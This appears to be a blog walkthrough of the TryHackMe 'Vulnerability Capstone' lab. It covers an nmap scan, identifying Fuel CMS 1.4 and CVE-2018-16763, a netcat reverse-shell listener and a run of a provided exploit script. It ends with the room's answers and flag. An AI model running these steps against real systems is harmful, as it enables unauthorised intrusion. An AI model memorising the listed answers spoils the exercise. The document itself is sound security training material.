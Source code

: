 ```yaml
---
title:  "THM: Vulnerability Capstone"
date:   2024-03-22 18:00:00 +0000
categories: [Vulnerabilities]
tags: [Vulnerabilities]
---
```


![image](/assets/img/vc.png) 

---
Ref: 

- [THM: Vulnerabilities 101](https://tryhackme.com/r/room/vulnerabilities101)

- [THM: Exploit Vulnerabilities](https://tryhackme.com/room/exploitingavulnerabilityv2)

- [THM: Vulnerability Capstone](https://tryhackme.com/room/vulnerabilitycapstone)

- [Exploit-DB](https://www.exploit-db.com/)

- [NVD (National Vulnerability Database)](https://nvd.nist.gov/vuln)

- [OWASP framework](https://owasp.org/www-project-top-ten/) 

- [Rapid7](https://www.rapid7.com/db/) 

- [Wordpress Plugin SP Project & Document](https://www.rapid7.com/db/modules/exploit/multi/http/wp_plugin_sp_project_document_rce/0)

---
Step 1 - Nmap 
```
nmap 10.10.67.58
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2024-03-23 00:48 GMT
Nmap scan report for ip-10-10-67-58.eu-west-1.compute.internal (10.10.67.58)
Host is up (0.00027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:89:D9:14:39:AF (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.68 seconds
```

Step 2 - port 80 open -> http
Go to the browser
 Fuel CMS
 ![img](/assets/img/vc01.png)

 1. What is the name of the application running on the vulnerable machine? Fuel CMS

 2. What is the version number of this application?
1.4

3. What is the number of the CVE that allows an attacker to remotely execute code on this application?
- searchsploit -> Fuel CMS -> Romte Execute Code
![img](/assets/img/vc02.png)
- exploit-db -> search -> Fuel CMS -> CVE #
-> CVE-2018-16763

4. There is an exploit located on the AttackBox 
![img](/assets/img/vc03.png)

- Create a listener from the attack box w/ port:8081
```
nc -lvnp 8081
```

Use the exploited provided under /usr/share/exploits/vulnerabilitiescapstone
```
python3 exploit.py 10.10.67.58
```

5. What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.
THM{ACKME_BLOG_HACKED}